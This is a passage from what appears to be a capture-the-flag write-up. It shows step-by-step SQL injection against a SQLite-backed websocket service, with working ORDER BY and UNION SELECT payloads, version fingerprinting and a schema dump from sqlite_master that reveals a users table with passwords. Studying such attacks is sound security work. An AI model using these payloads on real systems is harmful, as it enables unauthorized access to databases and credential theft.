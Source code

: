It returned the version information.

```bash
$ ./ws.py
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

I had an SQL Injection vulnerability. I used `Order By` statements to find how many columns the query returned.

```python
data = {"version": '0.0.0" Or 1 = 1 Order By 4 desc -- -'}
```

4 columns worked, but 5 failed. Next, I tried a `UNION` statement.

```python
data = {"version": '0.0.0" UNION Select 1, 2, 3, 4 -- -'}
```

```bash
$ ./ws.py
{"message": {"id": 1, "version": 2, "released_date": 3, "downloads": 4}}
```

I knew I was able to extract data, now I needed to figure which database was used. I tried to extract the version.

```python
data = {"version": '0.0.0" UNION Select sqlite_version(), 2, 3, 4 -- -'}
```

The server was using sqlite.

```bash
$ ./ws.py
{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}
```

With that information, I could use `sqlite_master` to extract the database schema. I got all the table definitions by using `Limit` and `Offset`.

```python

data = {"version": '0.0.0" UNION Select name, sql, 3, 4 From sqlite_master Limit 1 Offset 6 -- -'}
```

```sql
CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id));

CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT);

CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE);

CREATE TABLE sqlite_sequence(name,seq);

CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT);

CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER);
```
